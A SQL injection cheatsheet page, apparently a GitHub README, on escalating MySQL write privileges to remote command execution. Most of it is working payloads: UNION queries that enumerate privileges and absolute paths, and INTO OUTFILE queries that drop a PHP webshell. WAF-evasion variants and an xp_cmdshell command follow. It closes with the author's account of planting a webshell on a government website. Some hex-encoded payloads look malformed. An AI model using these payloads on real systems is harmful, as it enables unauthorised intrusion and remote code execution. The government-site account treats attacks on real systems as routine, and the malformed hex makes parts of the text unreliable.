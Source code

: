 # SQL Privilege Escalation

## Identifying the write user's permission
If the database user has write permission, it allows an attacker to upload arbitrary files in the server.  

Let's suppose that the website has 12 columns and the given UNION Based SQL query shows that the vulnerable column is 4:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,4,5,6,7,8,9,10,11,12-- -```

Payload used for Privilege Check via I_S.PRIVILEGES:  
```sql
(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)
```

Payload used for Privilege Check via MySQL System Table:  
```sql
(SELECT+GROUP_CONCAT(user,0x202d3e20,file_priv,0x3c62723e)+FROM+mysql.user)
```

If for some reason you get Errors when using the mentioned queries, try the following query instead (it uses unhex(hex()) functions to avoid servier-side conflicts:  
```sql
(SELECT+unhex(hex(GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)))+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)
```

Apply one of the queries into the 4th column:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),5,6,7,8,9,10,11,12-- -```

Look into the results, if 'root'@'localhost' is YES, then we can perform Privilage Escalation (perform RCE). Else, if NO is shown we can't perform RCE since we don't have permission to write over the server.

## Escalating privileges

Since we have permission to write, we can create our own PHP Webshell, but to do this we need to know the absolute path of INDEX.

### Finding absolute path

1. The most common way to find a path, is by searching the temporary path that SQL has, to do that we simply use the following query, to get some absolute path directories:
```sql
@@slave_load_tmpdir
@@basedir
@@datadir
@@tmpdir
```

Look at the output, you should look after a directory, something like this:
**/var/mysqltmp**  

This means that we can upload files to **/mysqltmp**

2. Another way (when website likes to Error) is to perform a 'Fatal Error' or a Syntax Error and the absolute path will be shown bolded like the image below.
Note: different websites displayes different output and format.

![fatal_error_syntax](https://i.imgur.com/rAPKrh1.png)

The bold part is the absolute path: **E:\xampp\htdocs** which is converted to **E:/xampp/htdocs**

### Uploading webshell

Let's use the following PHP code to inject it into an arbitrary file:
```php
<?php system($_GET[‘cmd’]); ?>
```

Below is the PHP script converted to 0xHEX format:  
```0xa3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e```

The following queries (same goal, different approach) is to inject this php code into an arbitrary file which we will name it **webshell.php** (for this part you MUST assume/know the absolute path of the file you want to upload, otherwise it won't work. Hint: use [@@slave_load_tmpdir](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/edit/main/Privilege%20Escalation/README.md#finding-absolute-path) to find the temporary directory located in the server).  

```sql
http://domain.com/index.php?id=1' Union Select 1,2,3,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,5,6,7,8,9,10,11,12 into outfile 'E:/xampp/htdocs/webshell.php'-- -
```  
```sql
http://domain.com/index.php?id=1' Union Select 1,2,3,"<?php system($_GET['cmd']); ?>",5,6,7,8,9,10,11,12 into outfile "C:\\xampp\\htdocs\\webshell.php'-- -
```  
```sql
http://domain.com/index.php?id=1' Union Select '' into outfile '/var/www/html/webshell.php' FIELDS TERMINATED BY "<?php system($_GET['cmd']); ?>"
```  

If WAF comes into the play and makes it unable for you to upload webshell, try using the following concat() functions to load the PHP script:
```sql
unhex(hex(/*!50000group_concat*/(/*!500000x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d*/)))  
%0AcOnCat(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)  
/**//*!12345cOnCat*/(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)  
unhex(hex(/*!12345concat*/(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)))  
```

Since the webshell is upload, you can go execute OS Commands:

```http://domain.com/webshell.php?cmd=whoami```

## OS Command Execution

Via **xp_cmdshell**:  
```something'); exec xp_cmdshell "ping 10.10.x.x"--``` 

## Real life scenario

Below is a simple writeup of how I managed to upload a webshell in a gov website. Using the following query I found out that column 7 was vulnerable:  
```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,7,8--```  

Let's enumerate the user's privilege:  
```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),8--```  

The output looks promising, the user j**** has writing permission, which mean we can write arbitrary files:  
![privilege_check_output](https://i.imgur.com/G8HR7Tq.jpg)

Now it's time to find an existing path so we know where to write our webshell. For this I am going to use some global variables (which we already discussed [here](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Privilege%20Escalation#finding-absolute-path))  
```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,@@slave_load_tmpdir,8--```  

The output is:  
```C:\xampp\tmp```

Great, so now let's upload a webshell to **C:\xampp\tmp**:  
```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,"<?php system($_GET['cmd']); ?>",8 into outfile 'C:/xampp/tmp/webshell.php'--```  

I tried to find a way how to access our webshell, but since it is uploaded on /tmp directory, there was no chance to directly access it. In this case, we use **load_file()** function.
```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,load_file('C:/xampp/tmp/webshell.php'),8--```  

If we see the source-code of the response, we can see our webshell uploaded:  
![webshell_uploaded](https://i.imgur.com/tyR6cp2.png)

Note: This is a simple PoC, in real-life pentest engagements, you might prefer uploading a proper webshell instead, since it is easier to interact with it.
